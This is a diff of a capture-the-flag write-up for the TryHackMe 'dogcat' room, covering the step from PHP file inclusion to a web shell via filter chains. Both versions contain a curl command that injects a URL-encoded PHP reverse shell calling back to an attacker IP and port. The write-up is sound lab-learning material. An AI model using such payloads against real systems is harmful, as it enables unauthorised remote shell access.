

Before and after one commit to Roqlane/writeups, a Markdown page: thm/dogcat.md, the part around one of its changes. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

```diff
--- a/thm/dogcat.md
+++ b/thm/dogcat.md
@@ -38,10 +38,11 @@ Got a base64 response so I used cyberchef to decode it
 
 ## Web shell
 
-Now we to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py
+Now we have to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py
 
 ![image](https://github.com/Roqlane/writeups/assets/78229498/9363c59d-214b-4d65-8fda-b02944433f4e)
 
+I put the result in the FILTERS variable
 
 ![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)
 
@@ -55,9 +56,7 @@ Execute `ls%20..%2F` on the cmd param and you found out that there is the second
 
 ![image](https://github.com/Roqlane/writeups/assets/78229498/a5fe8bbc-12a5-4de9-9cca-f82e54845521)
 
-I put the result in the FILTERS variable
-
-`curl --user-agent "PENTEST" "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`
+`curl "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`
 
 ![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)
 
```
Also changed, not shown: other parts of thm/dogcat.md (+18 -2 lines).
